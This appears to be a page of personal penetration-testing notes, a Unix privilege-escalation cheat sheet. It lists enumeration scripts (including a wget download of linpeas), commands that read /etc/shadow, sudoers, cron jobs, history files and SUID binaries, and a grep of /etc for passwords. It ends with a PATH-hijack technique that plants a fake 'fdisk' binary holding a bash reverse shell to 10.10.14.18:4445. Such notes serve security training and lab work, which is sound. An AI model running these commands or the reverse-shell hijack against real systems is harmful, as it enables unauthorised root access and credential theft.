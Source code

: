 ## Unix:

	Scripts:  
	    ./linpeas.sh -w	(wget https://github.com/carlospolop/PEASS-ng/releases/download/20220901/linpeas.sh)
	    ./linenum.sh
	    Unix Privesc Check (http://pentestmonkey.net/tools/audit/unix-privesc-check):
		./unix-privesc-check standard or ./unix-privesc-check detailed
	General Enumeration:
	    hostname
	    ifconfig
	    netstat -rn
	    netstat -tanu; lsof -i -Pn
	    dpkg -l
	    cat /etc/fstab; mount; showmount -e; exportfs -v
	    cat /etc/hosts; getent hosts; cat /etc/resolv.conf; cat /etc/nsswitch.conf
	    iptables -nvL
	System/Kernel:
	    cat /etc/issue; cat /proc/version; uname -a
		DirtyCow affects all kernel version before 4.8.3****
	Users/Rights:
	    id
	    sudo -l
	    cat /etc/passwd; getent passwd; cat /etc/shadow; getent shadow; cat /etc/group; getent group; cat /etc/sudoers
	    find / -name .*history -exec ls -l {} \; -exec wc -l {} \; 2>/dev/null
	    **Find all SUID/SGID:  find / -perm /4000 -exec ls -trl {} \; 2>/dev/null    \\   find / -perm /2000 -exec ls -trl {} \; 2>/dev/null
	Scheduled Tasks:
		cat /etc/crontab; cat /etc/anacrontab; ls -tRal /etc/cron*; ls -latrR /var/spool
		for user in $(getent passwd | awk -F ':' '{print $1}' ); do echo $user; crontab -u $user -l  2>/dev/null; done
	Enumeration:
		ls -tRal /home
	        Find all hidden files:  find / -type f -name '.*'|grep -vE 'sys|src'|xargs ls -alt 2>/dev/null
		Find hidden directories:  find / -type d -name '.*'|grep -vE 'sys|src'|xargs ls -altF 2>/dev/null
		Bash scripts:  find / -iname *.sh 2>/dev/null|grep -vE 'share|src'
		User files that aren't world readable:  find / ! -type d ! -perm -o=r -user $(whoami) -exec ls -la {} \; 2>/dev/null | egrep -v " /proc|cgroup|\.cache|\.config"
		Group files that aren't world readable: for group in $(groups); do echo ${group}; find / -group ${group} ! -type d ! -perm -o=r -exec ls -la {} \; 2>/dev/null | grep -vF " /proc" > ${group}; done
		Installed Packages:  cat /var/log/rpmpkgs; rpm -qa; apt-get list --installed; apt list --installed; dpkg-query -l; yum list installed
	Script/Process Modifications:
		*Look for things running as root that you can hijack
	    GTFOBins:  https://gtfobins.github.io/   
	    **Seeing if a script is run by another user: use https://github.com/DominicBreuker/pspy
	    ps -ef
		ps -f -U root
	    cat /etc/crontab; cat /etc/anacrontab; ls -tRal /etc/cron*
	    for user in $(getent passwd | awk -F ':' '{print $1}' ); do echo $user; crontab -u $user -l  2>/dev/null; done|more
	    Techniques:
		strings -> see what filenames/locations a binary uses
		modify script directly if permission
		hijack programs w/o absolute path
		check write access to same directory
		analyze program calls: ltrace sysinfo
		    find calls without path, then:  echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.18/4445 0>&1' > fdisk   and chmod +x
			add to path:  export PATH="/dev/shm:$PATH"   
	Interesting Files:
	    egrep -iR 'pass|secret' /etc/